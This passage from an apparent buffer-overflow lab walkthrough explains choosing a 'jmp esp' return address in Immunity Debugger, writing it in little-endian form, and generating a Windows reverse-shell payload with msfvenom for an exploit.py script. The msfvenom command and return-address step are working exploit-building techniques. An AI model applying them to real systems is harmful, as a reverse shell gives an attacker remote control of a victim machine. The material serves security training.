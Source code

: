 - This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified
The results should display in the "Log data" window (use the Window menu to switch to it if needed)

- Choose an address and update your exploit.py script, **setting the "retn" variable to the address**, **written backwards** (since the system is **little endian**)
For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit


![image28](../resources/a649d563663149e3b31d1b93ac8d5acd.png)

**ESP Address: 080414C3**

**Little Endian: \xC3\x14\x04\x08**


![image29](../resources/506db26d48ea44e0a5bbf86b87a2c24f.png)

**<u>Generate Payload</u>**

- Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=KALI_IP LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c

```
- Copy the generated C code strings and integrate them into your exploit.py script payload variable using the following notation:


![image30](../resources/8e53b630bc0842b79f3369df5f5f945d.png)

